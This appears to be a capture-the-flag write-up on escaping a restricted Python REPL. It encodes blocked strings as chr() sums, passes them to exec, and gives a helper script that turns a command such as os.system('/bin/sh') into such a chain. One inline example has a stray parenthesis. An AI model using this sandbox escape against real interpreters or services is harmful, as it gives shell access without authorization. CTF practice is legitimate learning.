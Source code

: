 
Tags: **Miscellaneous**, **Medium**

### Challenge
In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

### Downloadable Files
[link](files/nehebkaus-trap)

### Solution

A good challenge, and what you were expected to do is design a jail break from a python REPL.
**REPL**
So, what I did first, was try to understand what kind of interactive interface we were dealing with - i tried `ls`, and it gave me an error, and submitting that to google, all results pointed to `python`
**Commands**
I tried a couple of python commands, and characters, and I made a list, which would help me know which programs I might use to escape the jail i.e.
```
cmds => bin,help,id,import,dir,globals,print,eval,str,exec,ord,sys
chars => {}<>TAB|()*[]=:+@!#$%^\-?
```
**Thinking...**
I thought for a while, tried to google stuff, and after a number of trial and errors, I knew I had to find a way to use numbers to craft a solution, because strings were restricted, and i couldn't use even underscores.
That's when I remembered..chr,ord..which funny enough, I had thought about but I couldn't conceptualize a working solution..playing around with it on a separate REPL, that's when this hit me - i could use **chr()** to produce chars and use **+** to join these characters and produce a **string**!!

Now everything was easier - since `exec` was enabled, I could run system commands with it i.e.
`exec('import os; os.system("ls -la"))'`

Here is the script to help out with printing the character chain:
```python
import sys

try:
        ss = sys.argv[1]
except:
        print("Error")
        exit(0)

result = ""
for s in ss:
        result+=(f"chr({ord(s)})+")

print(result[:-1])
```

to try directory listing, i run this script (`script.py`) as follows:
```python
python script.py "import os; os.system('/bin/sh')"
```
this printed some `chr(<DIGIT>)+` chain which I passed to our program and had code execution.

### Screenshots

